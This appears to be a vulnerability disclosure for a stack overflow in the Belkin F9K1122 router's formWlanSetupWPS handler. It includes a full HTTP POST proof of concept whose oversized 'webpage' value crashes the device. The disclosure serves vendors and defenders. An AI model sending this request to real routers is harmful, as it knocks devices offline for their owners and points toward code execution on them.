


# Belkin Vulnerability

Vendor:Belkin

Product:F9K1122

Version:1.00.33

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in Belkin router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `webs` binary:

In the router's `formWlanSetupWPS` function, `wps_enrolee_pin、webpage` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `wps_enrolee_pin、webpage` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `wps_enrolee_pin、webpage` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `webpage` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/formWlanSetupWPS HTTP/1.1
Host: 192.168.1.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 903
Origin: http://192.168.1.5
Connection: close
Referer: http://192.168.1.5/index2.asp
Upgrade-Insecure-Requests: 1

WPSHWEnable=&selected_band=&h_wps_action=2&wls_wps_enabled=&webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&h_wps_dev_genpin=&wps_enrolee_pin=
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
